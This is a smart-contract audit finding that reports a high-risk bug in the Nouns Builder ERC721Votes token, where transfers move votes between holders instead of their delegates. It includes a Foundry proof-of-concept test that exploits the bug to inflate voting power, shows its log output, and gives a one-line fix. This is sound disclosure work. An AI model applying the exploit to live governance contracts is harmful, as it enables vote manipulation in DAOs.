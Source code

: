 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [`_transferFrom()` can be used to indefinitely increase voting power.](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/224) 

# Lines of code

https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268


# Vulnerability details

## `_transferFrom()` can be used to indefinitely increase voting power.
### Impact
It is possible to indefinitely increase voting power by creating new accounts (addresses) and delegating. This will lead to unfair governance as a user can vote with more votes than actual.

### Explanation
The `_transferFrom()`  does not move delegates from the src's delegates to the destination's delegates, instead, it moves directly from src to dest. (see recommendations and Code POC for better understanding)

### Code POC
```solidity
// Insert this test case into Token.t.sol
// Run: forge test --match-contract Token -vv

import "forge-std/console.sol";
...
function testIncreaseVotePower() public {
        deployMock();

        address voter1;
        address voter2;
        uint256 voter1PK;
        uint256 voter2PK;

        // Voter with 1 NFT voting power
        voter1PK = 0xABC;
        voter1 = vm.addr(voter1PK);
        vm.deal(voter1, 1 ether);
        // Second account created by same voter
        voter2PK = 0xABD;
        voter2 = vm.addr(voter2PK);

		// Giving voter1 their 1 NFT
        vm.prank(founder);
        auction.unpause();
        vm.prank(voter1);
        auction.createBid{ value: 0.420 ether }(2);
        vm.warp(auctionParams.duration + 1 seconds);
        auction.settleCurrentAndCreateNewAuction();

        // Start Exploit
        console.log("Initial Votes");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));
        
        vm.prank(voter1);
        token.delegate(voter2);
        console.log("After Delegating Votes, voter1 -> delegate(voter2)");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));

        vm.prank(voter1);
        token.transferFrom(voter1, voter2, 2); 
        console.log("After Token transfer, voter1 -transferFrom()-> voter2");
        console.log("voter1 votes: ", token.getVotes(voter1));
        console.log("voter2 votes: ", token.getVotes(voter2));

        vm.prank(voter2);
        token.delegate(voter2);
        console.log("After Delegating Votes, voter2 -> delegate(voter2)");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));
    }
```
Expected Output:
```solidity
[PASS] testVoteDoublePower() (gas: 3544946)
Logs:
  Initial Votes
  voter1:  1
  voter2:  0
  After Delegating Votes, voter1 -> delegate(voter2)   
  voter1:  1
  voter2:  1
  After Token transfer, voter1 -transferFrom()-> voter2
  voter1 votes:  0
  voter2 votes:  2
  After Delegating Votes, voter2 -> delegate(voter2)   
  voter1:  0
  voter2:  3
```
### Recommendations
Looking at [OpenZeppelin's ERC721Votes](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6a8d977d2248cf1c115497fccfd7a2da3f86a58f/contracts/token/ERC721/extensions/draft-ERC721Votes.sol#L13) which I believe the team took reference from, it states:
```
* Tokens do not count as votes until they are delegated, because votes must be tracked which incurs an additional cost
* on every transfer. Token holders can either delegate to a trusted representative who will decide how to make use of
* the votes in governance decisions, or they can delegate to themselves to be their own representative.
```
The current implementation does not follow this, and tokens count as votes without being delegated. To fix this issue, votes should only be counted when delegated.
- I believe the issue is here on this [line](https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268)
```solidity
// Transfer 1 vote from the sender to the recipient
        _moveDelegateVotes(_from, _to, 1);
```
Where it should move from the delegate of `_from` to the delegate of `_to`. Suggested FIx:
```solidity
 _moveDelegateVotes(delegation[_from], delegation[_to], 1);
```
